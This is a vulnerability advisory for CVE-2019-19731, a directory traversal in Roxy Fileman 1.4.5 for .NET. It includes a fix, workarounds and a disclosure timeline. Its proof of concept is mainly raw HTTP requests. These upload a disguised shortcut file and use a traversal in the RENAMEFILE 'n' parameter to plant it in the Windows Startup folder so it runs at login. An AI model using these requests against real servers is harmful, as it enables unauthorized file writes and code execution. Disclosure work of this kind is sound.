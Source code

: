 # CVE-2019-19731: Directory traversal in Roxy Fileman for .NET 1.4.5

Roxy Fileman 1.4.5 for .NET is vulnerable to path traversal which can lead to file write in arbitrary locations depending on 
the IIS worker process privileges. This PoC demonstrates a crafted Windows shortcut file being uploaded and written to the Startup folder. The execution
of this file will be triggered on the next login.

## Proof of concept

It's possible to write an uploaded file to arbitrary locations using the `RENAMEFILE` action.
The `RenameFile` function in `main.ashx` does not check if the new file name parameter `name` is a valid location.
Moreover, the default conf.json has an incomplete blacklist for file extensions which in this case
allows Windows shortcut files to be uploaded, alternatively existing files can be renamed to include 
the `.lnk` extension.

1. Creating a shortcut file

By using for example the target executable `C:\Windows\System32\Calc.exe` and
removing the `.lnk` extension and renaming it to use the `.dat` extension.

2. Uploading the file

Either upload the `.dat` file manually via the Roxy Fileman web interface
or programmatically using a HTTP POST request. 

Details of the request:

```
POST /wwwroot/fileman/asp_net/main.ashx?a=UPLOAD HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------159382831523528
Content-Length: 924
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

-----------------------------159382831523528
Content-Disposition: form-data; name="action"

upload
-----------------------------159382831523528
Content-Disposition: form-data; name="method"

ajax
-----------------------------159382831523528
Content-Disposition: form-data; name="d"

/wwwroot/fileman/Uploads/test2
-----------------------------159382831523528
Content-Disposition: form-data; name="files[]"; filename="poc.dat"
Content-Type: application/octet-stream

...data omitted...
-----------------------------159382831523528--
```

3. Write the file to the Startup folder using the `RENAMEFILE` action

The new filename is set via the `n` parameter. The correct path can be identified by trial and error depending 
on the location of `wwwroot` on the filesystem and the privileges for the IIS worker process (`w3wp.exe`).

If the necessary directories do not exist, they can be created using the `CREATEDIR` action which is also
vulnerable to path traversal.

```
POST /wwwroot/fileman/asp_net/main.ashx?a=RENAMEFILE&f=%2Fwwwroot%2Ffileman%2FUploads%2FDocuments%2Fpoc.dat&n=../../../../../../../../AppData/Roaming/Microsoft/Windows/Start%20Menu/Programs/Startup/poc.txt.lnk HTTP/1.1
Host: 127.0.0.1:50357
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://127.0.0.1:50357
Connection: close
Referer: http://127.0.0.1:50357/wwwroot/fileman/
Cookie: roxyld=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2; roxyview=list

f=%2Fwwwroot%2Ffileman%2FUploads%2Ftest2%2Fpoc.dat&n=poc.dat
```

## Workaround / Fix
Patch the `main.ashx` code in order to perform checks for all paths that they are valid for the following actions: 
`CREATEDIR`, `COPYFILE` and `RENAMEFILE`.

Recommendations for users of Roxy Fileman:
  - Add `lnk` file extension to the `conf.json` under `FORBIDDEN_UPLOADS`, and `aspx` since it is not included in the blacklist by default.


## Timeline
- 2019-12-06: Discovered the vulnerability
- 2019-12-06: Reported to the vendor (vendor is unresponsive)
- 2019-12-11: Request CVE
- 2019-12-13: Advisory published
